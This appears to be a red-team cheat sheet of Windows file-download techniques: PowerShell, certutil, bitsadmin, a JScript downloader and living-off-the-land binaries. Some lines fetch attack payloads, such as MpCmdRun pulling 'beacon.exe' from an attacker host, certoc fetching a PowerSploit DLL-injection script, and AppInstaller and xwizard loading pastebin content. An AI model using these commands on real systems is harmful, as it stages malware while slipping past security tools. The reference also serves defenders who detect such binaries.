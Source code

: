 # Downloading files

## Powershell

Its simple:
```
(new-object System.Net.WebClient).DownloadFile('http://www.example.com/file.txt', 'C:\tmp\file.txt')
```
or
```
Invoke-WebRequest -Uri 'http://google.com/file' -OutFile 'C:/file'
```
or
```
Import-Module bitstransfer
start-bitstransfer -source http://something/something.ext -destination c:\something.ext
```

## Clean CMD

```
certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
```

```
bitsadmin /transfer myDownloadJob /download /priority normal http://downloadsrv/10mb.zip c:\10mb.zip
```

## Perverse way

Save this code as wget.js
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);

/* To save a binary file use this code instead of previous line
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("out.bin");
*/
```
then run
`cscript /nologo wget.js http://example.com`

## Other methods and LOLBAS

AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL and is saved in C:\Users\%username%\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\AC\INetCache\  
`start ms-appinstaller://?source=https://pastebin.com/raw/tdyShwLw`

Downloads text formatted files  
`certoc.exe -GetCACAPS https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1`

Save the response from a HTTP POST to the endpoint https://example.org/ as output.txt in the current directory  
`CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt`

Download a file from the web address specified in the configuration file. The downloaded file will be in %TMP% under the name VPNXXXX.tmp where "X" denotes a random number or letter.  
`cmdl32 /vpn /lan %cd%\config`

Downloads the file and sets it as the computer's lockscreen  
`set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr`

Open the target PowerShell script with HTML Help.   
`HH.exe http://some.url/script.ps1`

Binary part of Windows Defender. Used to manage settings in Windows Defender.
Download file to specified path - Slashes work as well as dashes (/DownloadFile, /url, /path)  
`MpCmdRun.exe -DownloadFile -url https://attacker.server/beacon.exe -path c:\\temp\\beacon.exe`

Xwizard.exe uses RemoteApp and Desktop Connections wizard to download a file.  
`xwizard RunWizard {7940acf8-60ba-4213-a7c3-f3b400ee266d} /zhttps://pastebin.com/raw/iLxUT5gM`
